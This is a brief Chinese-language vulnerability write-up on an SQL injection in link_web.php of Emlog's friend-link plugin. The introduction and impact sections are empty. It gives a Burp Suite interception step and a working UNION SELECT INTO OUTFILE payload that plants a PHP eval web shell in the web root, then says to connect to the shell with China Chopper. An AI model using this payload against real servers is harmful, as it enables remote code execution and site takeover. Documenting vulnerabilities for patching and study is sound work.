 ```yaml
---
title: "Emlog 友情链接自助插件存在SQL注入漏洞"
id: zhfly2910
---
```


# Emlog 友情链接自助插件存在SQL注入漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在该插件当中的link_web.php文件中，直接将用户提交的数据进行了拼接，之后直接带入了查询，未经过任何的过滤操作，由此一个典型的SQL注入漏洞就这样简易的诞生了：

![image](../img/423764f83cfb33abdaeaabeb1c1a8457.png)

由于这里的参数都没有经过过滤，所以我们可以对任意参数进行验证，进行SQL注入，首先我们可以提交正常的访问请求，之后使用burpsuite进行抓包，之后改包，我们这里以URL为例：

在抓取到数据包之后，我们可以将url改为以下内容：

```
url=http://0-sec.org' union select 1,2,3,4,5,'<?php eval($_GET[cmd]); ?>' into outfile 'c:\\phpstudy\\www\\shell.php' 
```

之后，这条语句会正常执行，同时也会在C:\phpstudy\www\下生成一个shell.php，而且该shell.php中的内容正是我们之前写入的一句话，之后我们可以使用菜刀进行连接。